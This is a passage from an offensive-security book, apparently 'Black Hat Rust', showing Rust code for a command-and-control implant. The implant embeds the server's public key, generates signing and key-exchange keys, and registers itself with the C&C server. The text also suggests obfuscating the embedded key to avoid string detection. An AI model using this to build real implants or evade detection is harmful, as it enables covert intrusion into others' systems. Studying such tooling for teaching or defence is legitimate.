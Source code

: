And simply embed it in the agent like that:

**[ch_11/agent/src/config.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_11/agent/src/config.rs)**
```rust
pub const CLIENT_IDENTITY_PUBLIC_KEY: &str = "xQ6gstFLtTbDC06LDb5dAQap+fXVG45BnRZj0L5th+M=";
```

In a more "more serious" setup, we may want to obfuscate it (to avoid string detection) and embed it at build-time, with the [`include!`](https://doc.rust-lang.org/std/macro.include.html) macro for example.

**Remember to never ever embed your secrets in your code like that and commit it in your git repositories!!**


### Agent's registration

As per our design, the agent needs to register itself to the server by sending its `identity_public_key`, `public_prekey`, and `public_prekey_signature`.


First we need to generate a long-term identity `ed25519` keypair, which should be generated only once in the lifetime of an agent:
**[ch_11/agent/src/init.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_11/agent/src/init.rs)**
```rust
pub fn register(api_client: &ureq::Agent) -> Result<config::Config, Error> {
    let register_agent_route = format!("{}/api/agents", config::SERVER_URL);
    let mut rand_generator = rand::rngs::OsRng {};

    let identity_keypair = ed25519_dalek::Keypair::generate(&mut rand_generator);
```


Then we need to generate our `x25519` prekey which will be used for key exchange for jobs.
**[ch_11/agent/src/init.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_11/agent/src/init.rs)**
```rust
    let mut private_prekey = [0u8; crypto::X25519_PRIVATE_KEY_SIZE];
    rand_generator.fill_bytes(&mut private_prekey);
    let public_prekey = x25519(private_prekey.clone(), X25519_BASEPOINT_BYTES);
```

Then we need to sign our public prekey, in order to attest that it has been issued by the agent, and not an adversary MITM.
**[ch_11/agent/src/init.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_11/agent/src/init.rs)**
```rust
    let public_prekey_signature = identity_keypair.sign(&public_prekey);
```


Then we simply send this data to the C&C server:
**[ch_11/agent/src/init.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_11/agent/src/init.rs)**
```rust
    let register_agent = RegisterAgent {
        identity_public_key: identity_keypair.public.to_bytes(),
        public_prekey: public_prekey.clone(),
        public_prekey_signature: public_prekey_signature.to_bytes().to_vec(),
    };

    let api_res: api::Response<api::AgentRegistered> = api_client
        .post(register_agent_route.as_str())
        .send_json(ureq::json!(register_agent))?
        .into_json()?;

    if let Some(err) = api_res.error {
        return Err(Error::Api(err.message));
```